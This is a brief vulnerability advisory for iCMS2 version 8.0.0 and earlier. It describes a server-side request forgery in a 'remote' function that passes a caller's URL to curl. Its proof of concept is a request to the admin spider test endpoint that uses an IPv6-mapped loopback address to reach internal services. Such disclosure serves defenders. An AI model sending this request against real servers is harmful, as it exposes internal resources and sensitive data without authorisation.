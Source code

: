 ### iCMS2

- **Application**: iCMS2<= 8.0.0

- **Threat Impact**: File disclosure, Sensitive data leakage

- **Code**: 

  ```
  public static function remote($url){
    curl_init($url);
  }
  ```

- **POC**:

  1. `http://server/admincp.php?app=spider_project&do=test&url=http://[::ffff:127.0.0.1]`
  1. Receive a request on server side. The response is displayed


